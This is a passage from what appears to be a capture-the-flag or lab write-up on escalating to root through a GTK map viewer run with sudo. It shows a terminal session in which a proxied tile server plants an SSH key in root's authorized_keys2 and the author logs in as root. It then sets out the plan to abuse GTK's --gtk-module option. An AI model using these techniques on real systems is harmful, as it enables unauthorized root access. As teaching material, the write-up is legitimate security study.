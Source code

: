 Let's do it!

```
$ python server.py &
$ http_proxy="http://127.0.0.1:8000" XDG_CACHE_HOME=./test_cache_dir sudo -E ./mapviewer  

(mapviewer:519406): OsmGpsMap-WARNING **: 13:32:22.968: Error getting missing tile

(mapviewer:519406): OsmGpsMap-WARNING **: 13:32:22.981: Error getting missing tile

...
$ sudo cat /root/.ssh/authorized_keys2
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCf8bM2h6FZNN7qhmCNyhleRhV7u2HKC7NUsGxMCMCo

$ ssh root@127.0.0.1
root@127.0.0.1's password: 
^C

$ ssh -i /tmp/dactyl root@127.0.0.1

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jan 29 13:35:14 2021 from 127.0.0.1
root@debian:~# 
```


We win!.... in this hypothetical situation. But this, unfortunately still does not apply to the task at hand. So what is the solution?


## 6.<span id="a_part6"/> GTK obscurity


As it turns out, the solution is much simpler than what you have seen so far. Knowing that there is solution, we can eliminate attack surfaces one by one. How could an attacker influence the control flow of the program?

 - environment variables: as we have seen, it should have been possible but sudo resets everything
 - standard input: the application does not take any
 - command line arguments: the application only takes two arguments which don't help at all


However, what if there were some hidden command line arguments that the application accepts? Could GTK have some mysteries? According to https://developer.gnome.org/gtk3/stable/gtk-running.html

```
All GTK+ applications support a number of standard commandline options. These are removed from argv by gtk_init().
Modules may parse and remove further options. The X11 and Windows GDK backends parse some additional commandline options.

...
--gtk-module module.  A list of modules to load in addition to those specified in the GTK3_MODULES environment variable and the gtk-modules setting.
```
